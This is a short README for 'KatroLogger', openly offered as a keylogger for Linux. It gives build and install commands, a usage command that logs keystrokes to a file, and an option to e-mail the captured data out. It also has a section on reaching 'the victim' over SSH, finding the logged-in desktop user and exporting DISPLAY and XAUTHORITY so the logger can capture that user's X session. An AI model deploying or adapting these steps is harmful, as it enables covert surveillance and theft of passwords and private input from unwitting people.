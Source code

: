 # KatroLogger
KeyLogger for Linux Systems.

- **Dependencies**
  - curl
  - libx11-dev (Debian-Based)
  - libX11-devel (RHEL-Based)

- **Compiling**
```
./configure
make
make install
```
- **Usage**
```
katrologger --output /path/file
```
Send data by e-mail:
```
keylogger --smtp-help
```
- **Fixing problems accessing via SSH**
> when connecting to the victim remotely via ssh it will be necessary to export environment variables to run the keylogger.

For hosts without GUI:
```
# export GPG_TTY=$(tty)
```
For hosts with xorg running:
> identifying logged in user
```
# user=$(who | grep "(:0)" | awk '{print $1}')
# echo $user
```
> Exporting variables
```
# export DISPLAY=:0.0
# export XAUTHORITY=/home/$user/.Xauthority
```
- **Uninstall**
```
make uninstall
```
